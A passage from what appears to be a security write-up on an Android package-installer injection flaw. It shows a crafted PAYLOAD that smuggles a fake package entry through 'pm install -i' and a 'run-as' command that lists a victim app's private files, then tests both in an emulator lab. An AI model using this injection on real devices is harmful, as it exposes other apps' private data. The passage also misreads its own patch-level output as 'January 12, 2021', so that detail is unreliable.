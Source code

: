    For practical purposes, our `PAYLOAD` would look like this: 
   
   ```bash 
   PAYLOAD="@null 
   com.example.vulnerable0 10147 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null" 
   ```
 
3. Using our PAYLOAD, we install any app using `pm`. According to the tests done, this application cannot be _debuggable_: 
   
   ```bash 
   pm install -i "$PAYLOAD" any-app.ap 
   ``` 
 
4. We can test if the exploit worked by listing the private files of the _victim_ application: 
   
   ```bash 
   run-as com.example.vulnerable0 ls -al /data/data/com.example.vulnerable 
   ``` 
 
   If we get a list of files, voila!, the exploit worked. 

But let's go to the details of the practice: using an emulator, and doing the whole process in a controlled environment. 

## --[ 0x05 Testing the exploit and collecting data ]-- 

For this experiment, the _Virtual Device Manager_ that comes with *Android Studio* was used to run an image of a **Pixel 4 with API 31 (Android 12) with Google Play Services (without root)**. Initially, the same model was tested, but with API 33 (Android 13), and it seems that the installed image already had the update that fixes this vulnerability (exactly that update). 

**TODO:** Learn how to install images on the emulator with patch levels lower than the default ones. 

An empty test app was created that does nothing, called **dummyApp**, to be used as the app installed in the final step of the exploitation. It was compiled as _release_ to work in this experiment. 

Another app, also empty, was created to test with an application that ran in the _untrusted_app_ SELinux domain. This app is called **vulnerable0** (com.example.vulnerable0). Likewise, it was compiled as _release_ so that it is not _debuggable_. 

With the emulator up and adb connected, we open a shell (`adb shell`), then install _vulnerable0_ in the emulator and start: 

### Preliminary checks 

1. **Patch level**: 

   ```bash 
   emulator64_x86_64_arm64:/ $ getprop ro.build.version.security_patch 
   2021-12-01 
   emulator64_x86_64_arm64:/ $ 
   ``` 
 
   We have that the last patch installed on this machine is from January 12, 2021. This vulnerability works for Android 12 and 13 with a patch level lower than 2024-03-01. Therefore, everything should work. 
